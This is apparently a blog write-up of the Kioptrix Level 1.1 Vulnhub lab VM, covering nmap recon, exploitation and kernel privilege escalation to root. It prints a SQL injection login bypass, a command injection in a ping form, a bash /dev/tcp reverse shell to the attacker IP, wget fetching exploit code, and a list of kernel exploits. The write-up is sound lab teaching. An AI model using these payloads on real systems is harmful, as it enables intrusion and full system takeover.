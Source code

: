 ```yaml
---
layout: post
title: Vulnhub Kioptrix Level 1.1 (#2)
---
```


This is my first writeup of a Vulnhub VM, so let's see how this goes...

This writeup is for the Kioptrix: Level 1.1 (#2) found [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, both in host-only networking mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap` to find open ports with services running on them.

```
root@kali:~# nmap 192.168.56.106
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.106
Host is up (0.0015s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:51:2F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser and was presented with a logon page.

## Vulnerability Discovery and Exploitation

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_1/logon.png "Logon page")

I tested a few basic username and password combinations, but it didn't seem to do anything. I ran OWASP ZAP to find any potential vulnerabilities or hidden pages. Using an automated scan, ZAP detected a possible SQL injection vulnerability on the logon page.

![ZAP Results]({{ site.baseurl }}/images/KioptrixLevel1_1/zap.png "ZAP Results")

I plugged the attack used (`ZAP' OR '1'='1' --`) into the username field and was presented with a form to ping a machine on the network. I immanently suspected there to be a bash injection vulnerability, but I plugged in an IP to make sure.

This brought me to a page containing the output to the ping command.

![ping results]({{ site.baseurl }}/images/KioptrixLevel1_1/ping.png "ping Results")

I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.

```
root@kali:~# nc -nvlp 1234
```

```
; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

This presented me with a shell on my Kali VM.

![Reverse Shell]({{ site.baseurl }}/images/KioptrixLevel1_1/shell.png "Reverse Shell")

## Privilege Escalation

I first check the user that I am.

```
bash-3.00$ whoami
apache
```

I look around a bit to find possible things to exploit, but I can't find anything obvious.

Next, I check the kernel version to see if there are any exploits available.

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9542).

Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.

```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.101/9542.c
--10:41:56--  http://192.168.56.101/9542.c
           => `9542.c'
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%    5.65 MB/s

10:41:56 (5.65 MB/s) - `9542.c' saved [2643/2643]
```

I then compiled it according to the instructions and ran it.

```
bash-3.00$ gcc -o 9542 9542.c
bash-3.00$ ./9542
[-] exploit failed, try again
```

This unfortunately didn't work. I looked at the source code to figure out why, but couldn't figure it out as this error is supposed to happen when the uid did not change with the exploit.

I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.

```
bash-3.00$ python linuxprivchecker.py
...
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - 2.x sock_sendpage() Local Root Exploit 2 || http://www.exploit-db.com/exploits/9436 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
    - 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver) || http://www.exploit-db.com/exploits/9479 || Language=c
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit [2] || http://www.exploit-db.com/exploits/9598 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - 2.6.x ptrace_attach Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8673 || Language=c
    - 2.x sock_sendpage() Local Ring0 Root Exploit || http://www.exploit-db.com/exploits/9435 || Language=c
    - 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) || http://www.exploit-db.com/exploits/926 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit (ppc) || http://www.exploit-db.com/exploits/9545 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - 2.4/2.6 sock_sendpage() Local Root Exploit [3] || http://www.exploit-db.com/exploits/9641 || Language=c
    - 2.4.x / 2.6.x uselib() Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/895 || Language=c

Finished
=================================================================================================
```

I tested the [2.6 UDEV < 141 Local Privilege Escalation Exploit](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) using the same methodology as above, but it didn't work either. I went down to the [2.4/2.6 sock_sendpage() Local Root Exploit (ppc)](http://www.exploit-db.com/exploits/9545), once again with the same methodology
and this time it worked.

![Root]({{ site.baseurl }}/images/KioptrixLevel1_1/root.png "Root")

